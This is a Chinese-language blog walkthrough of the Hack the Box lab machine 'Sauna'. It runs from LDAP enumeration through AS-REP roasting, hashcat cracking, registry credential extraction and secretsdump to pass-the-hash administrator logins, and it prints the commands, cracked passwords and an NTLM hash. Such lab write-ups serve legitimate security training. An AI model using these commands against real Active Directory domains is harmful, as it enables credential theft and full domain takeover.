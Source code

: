 ```yaml
---
title: Sauna
date: 2021-12-24 13:54:20
tags: Hack the Box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c4f7155f0a144fca320112bb07de39c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集
发现开放了445，80，88，5985这些常见的可能存在漏洞的端口。因为存在ldap服务，可能考虑到存在内网
![在这里插入图片描述](https://img-blog.csdnimg.cn/18c6ed7749514992adad88f2a6fa97f2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现了smb服务，尝试是否可以登录
![在这里插入图片描述](https://img-blog.csdnimg.cn/cae8f24d7edf4d9ab4db6a15e3d5c60b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录失败，那我们查看一下ldap有没有什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/f0249267ceca4d73943001c895249779.png)

```bash
ldapsearch -x -H ldap://10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=local"
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20211018114224.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJ/uf
 RcDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 132790309446175365
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL
# search result
search: 2
result: 0 Success
# numResponses: 19
# numEntries: 15
# numReferences: 3
```
<!--more-->

我们发现了一个可疑的用户。虽然是找到了用户名，但是我们不没有找到相对应的凭据。这时候我们切换一下思路，浏览一下web服务中有什么有价值的信息可以提供给我们的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b628002a16b3488681fd917e8308c38f.png)
在关于页面，我们看到了这两个用户的信息，长得貌似和我们信息收集出来的用户信息有点类似。那我们可以猜测这有可能是系统中真实存在的用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c588d6ef57d149fabf5e731d9cc5036d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试获取一下用户对应的哈希值，使用的工具是kerbrute，发现存在`hsmith`和`fsmith`这两个用户并且发现了它们的TGT条目。![在这里插入图片描述](https://img-blog.csdnimg.cn/2627486af25c47ab96b900a0ec75f39b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先使用impacket包中的`GetNPUsers.py`获取fsmith用户的hash值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0949aa761a34cd5ac4cb072c102afb1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将他的hash值保存为一个文件，使用hashcat尝试能不能破解成功。破解成功的密码明文值为`Thestrokes23`。这里解释一下参数的含义，-m指的是指定文件的散列值类型，-a指的是指定破解模式，-w是指定字典。

```bash
hashcat -m 18200 -a 0 -w 3 fsmith.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41e6765292b042028af2e5a18a7e63c0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e09120c6a3ab4d2ebc84502a9a0a58b4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/353674983008426c8e5578b2c332cf9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然破解到了密码，那我们可以登录SMB和WinRM服务了。我们先查看SMB服务，发现了两个共享服务，但是没有一个是有用的。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/03e072a109fb4bbea8beb8f0a955ab09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试利用WinRM吧，登录成功，拿到第一个flag值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0e08188c09403f95a20de67f6292de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们拿到的只是普通用户的权限，我们的目标当然是管理员权限。首先我们先看看都存在哪些用户，发现存在一个svc_loanmgr用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/db445cc21449494680e87b2d7ae329f8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用powershell命令查看到它对应的密码。

```powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d774cd7d287541eb8c6c68b368fe0424.png)
这个命令要记住它还是有一定难度的，我们也可以通过上传`WindowsEnum.ps1`脚本来完成这任务。
![在这里插入图片描述](https://img-blog.csdnimg.cn/86d1160f61414340a78ab8afd834f34a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8c4904ed1ffe46219f42192926e2b54c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现这个密码后，我们可以尝试使用登陆进去。但是我试了很多次都是登陆失败
![在这里插入图片描述](https://img-blog.csdnimg.cn/431a23d1a026444781060ce56c83ade6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那没办法了，我尝试使用`secretsdump.py`脚本看看能不能成功获取到这个用户的哈希值。我们意外发现administrator的hash值，发大财了

```bash
secretsdump.py -dc-ip 10.10.10.175 svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/24f4c7e28cee4d33bef37d56e48ad59a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`evil-winrm`进行登录，同时我们还可以使用`wmiexec.py`这个脚本进行登录，但是后者的速度要相较前者慢得多

```bash
evil-winrm -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42316c86c9ba4720b9fd0f6684ecec19.png)

```bash
wmiexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b57c846f068946208ef0673c1765edf0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
